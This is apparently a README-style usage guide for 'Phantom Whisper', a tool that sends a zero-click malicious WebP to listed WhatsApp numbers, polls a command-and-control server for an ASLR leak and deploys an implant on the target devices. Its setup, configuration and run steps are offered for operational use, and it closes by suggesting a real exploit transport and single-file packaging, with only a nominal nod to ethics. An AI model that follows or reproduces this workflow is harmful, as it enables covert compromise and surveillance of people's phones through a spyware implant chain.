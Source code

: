# Phantom Whisper — Step‑by‑Step Usage Guide

*A zero‑to‑green‑check walkthrough*

---

## 1  Prerequisites

| Requirement                 | Why                                  | Quick Check                |
| --------------------------- | ------------------------------------ | -------------------------- |
| Python 3.9 +                | Typing + `pydantic_settings` support | `python --version`         |
| `virtualenv` or `pyenv`     | Isolate deps                         | *Optional but recommended* |
| Git + GCC/Clang             | Pull & build wheels                  | `git --version`            |
| Out‑of‑scope test device(s) | Ethical testing only                 | Device IMEIs / IDs         |

---

## 2  Clone & Install

```bash
# 2.1  Clone
$ git clone https://github.com/yourname/phantom‑whisper.git
$ cd phantom‑whisper

# 2.2  Create and activate venv
$ python -m venv .venv
$ source .venv/bin/activate

# 2.3  Install deps
$ pip install -r requirements.txt
```

---

## 3  Configure Environment

Create a file named `.env` **in the project root**:

```env
# .env
C2_API_KEY=REPLACE_WITH_REAL_KEY
```

| Variable                        | Description                              |
| ------------------------------- | ---------------------------------------- |
| `C2_API_KEY`                    | Auth token for your C2 service           |
| (Optional) `C2_SERVER_BASE_URL` | Defaults to `https://your-c2-server.com` |

---

## 4  Prepare Payload & Target List

1. Drop your **malicious WebP** into `./payloads/malicious_webp.bin`
      *Keep filename—code resolves by path.*
2. Edit `phantom_whisper/config.py` *or* append to `.env`:

   ```env
   # Comma‑separated WhatsApp IDs
   TARGET_WHATSAPP_IDS="+15551234567,+15557654321"
   ```

---

## 5  Dry‑Run Smoke Test

```bash
$ python -m phantom_whisper.orchestrator --help   # coming soon
$ python -m phantom_whisper.orchestrator          # runs with defaults
```

What to expect:

* Console log lines in plain text.
* `./logs/phantom_whisper.log` populated with JSON entries.

*No network calls will be fired until payload & targets are reachable.*

---

## 6  Live Execution

```bash
# Ensure VPN / lab network is ready
$ python -m phantom_whisper.orchestrator
```

The orchestrator will:

1. **Send Zero‑click WebP** → target device(s)
2. Poll C2 for **ASLR leak** (exponential back‑off)
3. Instruct C2 to **deploy implant** `main_implant_<os>.bin`

Exit code = number of failed targets (0 → 🎉).

---

## 7  Log & Evidence Collection

* **Human‑readable:** console output.
* **Structured:** `logs/phantom_whisper.log` (JSON per line).
* **Hash traceability:** each session includes `payload_hash` + `session_id`.

> Tip: import the JSON log into a SIEM/Grafana for timeline views.

---

## 8  Parallel Mode (Optional)

Uncomment the `ThreadPoolExecutor` block in `orchestrator.py` and set:

```python
settings.max_workers = 4  # or env var in future release
```

---

## 9  Cleanup

```bash
$ deactivate             # leave virtualenv
$ rm -rf .venv logs/*.log
```

---

## 10  Troubleshooting

| Symptom                               | Likely Cause          | Fix                                     |
| ------------------------------------- | --------------------- | --------------------------------------- |
| `requests.exceptions.ConnectionError` | Bad C2 URL / VPN down | Verify `C2_SERVER_BASE_URL`             |
| `PayloadError: not found`             | Wrong payload path    | Confirm `./payloads/malicious_webp.bin` |
| Exit code > 0                         | Some targets failed   | See `logs/` for `ERROR` lines           |

---

### 💡 Next Steps

* Swap simulated WhatsApp transport for real exploit transport.
* Add CLI arg parsing for fully headless use.
* Package with `pyinstaller` for single‑file drop && go.

— **Happy hunting & stay ethical!**
